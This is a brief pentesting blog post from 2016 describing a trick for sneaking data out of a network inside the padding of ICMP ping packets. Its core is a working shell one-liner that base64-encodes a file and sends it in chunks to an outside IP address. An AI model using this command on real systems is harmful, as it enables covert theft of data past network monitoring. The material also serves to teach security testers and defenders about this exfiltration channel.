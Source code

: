 Title: Data Exfiltration with Ping
Date: 2016-07-01 10:21
Category: Pentesting
Tags: ping, stealth, exfil, data
Slug: ping-exfil
Authors: wumb0

I was looking around Twitter the other day and someone had posted something similar to this. I don't remember who you are, but this is a neat trick so I wanted to share it. How to exfiltrate data from a network using the padding of ICMP echo request packets. 

<pre><code class="sh">
base64 important-data.txt | xxd -ps -c 16 | while read i; do ping -c1 -s32 -p $i 8.8.8.8; done
</code></pre>

This will base64 encode important-data.txt and then stuff the encoded data 16 bytes at a time into ping. 

Obviously you should change the IP before sending :)

That's all for now.
